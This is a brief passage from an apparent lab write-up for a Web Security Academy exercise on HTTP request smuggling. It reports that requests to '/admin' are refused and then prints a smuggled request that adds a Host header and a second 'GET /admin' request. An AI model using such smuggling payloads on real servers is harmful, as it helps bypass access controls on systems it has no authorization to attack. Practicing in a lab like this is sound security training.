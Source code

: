 ![img](media/1b50a684eb3a0fe6a05b9e2c9c882ecf.png)

Every two requests, we get a request to “/admin”, but no access to it:

![img](media/af44143f93918a46211120f3f50b8391.png)

Then I added the “Host” header to the second request too:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ba
Host: 0a5f00f003d0fe7d8643783800450004.web-security-academy.net

GET /admin HTTP/1.1
Host: 0a5f00f003d0fe7d8643783800450004.web-security-academy.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
